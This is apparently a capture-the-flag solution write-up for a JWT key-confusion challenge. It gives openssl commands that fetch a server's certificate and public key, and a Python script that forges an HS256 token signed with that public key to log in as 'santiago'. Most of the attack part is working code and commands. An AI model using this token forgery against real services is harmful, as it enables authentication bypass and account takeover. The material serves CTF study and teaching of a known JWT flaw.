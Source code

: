 # Intended solution

1. Download the certificate from the server
```
echo | openssl s_client -showcerts -servername hackerschallenge.org -connect <SERVER>:8090 2>/dev/null | openssl x509 -inform pem > certificate.pem
```

2. Get the public key from the certificate
```
openssl x509 -pubkey -noout -in certificate.pem  > pubkey.pem    
```
3. There are two ways to get the right signature: you can install JSON Web Token Attacker in Burp Suite, then send a modified JWT with a wrong signature, and perform a key confusion with JOSEPH. Or you can use the following python script:

```python
import hashlib
import hmac
import base64

header = base64.b64encode('{"alg":"HS256","typ":"JWT"}'.encode())
payload = base64.b64encode('{"loggedin":true,"username":"santiago"}'.encode())

plaintext = str(header, "utf-8") + "." + str(payload, "utf-8")

key = open("pubkey.pem","r").read()

signature = hmac.new(key.encode(), plaintext.encode(), hashlib.sha256).digest()


result = plaintext + "." + str(base64.b64encode(signature), "utf-8")
print(result.replace("=", ""))
```